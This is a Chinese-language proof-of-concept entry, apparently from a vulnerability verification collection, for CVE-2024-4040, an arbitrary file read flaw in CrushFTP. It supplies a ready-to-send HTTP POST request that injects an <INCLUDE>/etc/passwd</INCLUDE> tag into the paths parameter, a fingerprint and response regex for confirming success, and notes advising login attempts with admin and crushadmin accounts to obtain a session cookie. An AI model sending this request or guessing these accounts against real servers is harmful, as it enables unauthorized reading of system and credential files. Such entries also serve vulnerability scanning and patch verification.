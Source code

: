 ﻿# CrushFTP 任意文件读取漏洞

> 更新时间：2024-04-29

> 漏洞编号：CVE-2024-4040

> 漏洞说明：

> 漏洞特征：title="CrushFTP"

> 验证脚本：HTTP

```
POST /WebInterface/function/ HTTP/1.1
Content-Type: application/x-www-form-urlencoded
Cookie: currentAuth=; CrushAuth=

command=exists&paths=<INCLUDE>/etc/passwd</INCLUDE>&random=0.5382052606828951&c2f=xxxx
```

> 响应代码特征：200

> 响应内容特征：^(?=.*?root)(?=.*?bin).*?$

> 上传文件定位：

> 验证文件来源：CrushFTP 任意文件读取漏洞.poc

```
备注说明：
1.可使用admin、crushadmin账号尝试登录系统，获取Cookie值
2、替换Cookie、需要读取的文件路径、c2f的值，发送请求,其中c2f参数的值为Cookie中currentAuth值
```

